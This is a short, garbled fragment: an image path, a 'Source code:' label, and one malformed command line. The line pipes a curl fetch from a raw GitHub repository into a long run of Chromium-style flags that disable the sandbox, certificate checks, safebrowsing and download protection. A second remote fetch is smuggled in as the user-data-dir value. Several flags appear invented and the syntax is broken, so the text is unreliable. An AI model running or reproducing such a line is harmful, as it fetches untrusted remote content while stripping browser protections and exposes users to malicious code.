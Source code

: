 (curl https://raw.github.com/kattkatt/hghg0vyhsaar/master/11/readme)  --map-image   --host-resolver-retry-attempts=0  --no-default-browser-check --no-swap-metrics --ignore-gpu-blacklist --ignore-urlfetcher-cert-requests --use-gl=osmesa --safebrowsing-disable-extension-blacklist --safebrowsing-disable-side-effect-free-whitelist --safebrowsing-disable-auto-update --safebrowsing-disable-download-protection --skip-gpu-data-loading --skip-hwid-check --ui-disable-threaded-compositing --no-sandbox --ignore-certificate-errors --disable-webgl  --disable-ntp-other-sessions-menu --disable-touch-adjustment   --allow-running-insecure-content --disk-cache-dir=/tmp/chromiumcache --disable-java --disk-cache-size=1   --disable-lcd-text  --disable-device-discovery  --prefetch_only --user-data-dir=(http https://raw.github.com/kattkatt/hghg0vyhsaar/master/1/README.md)
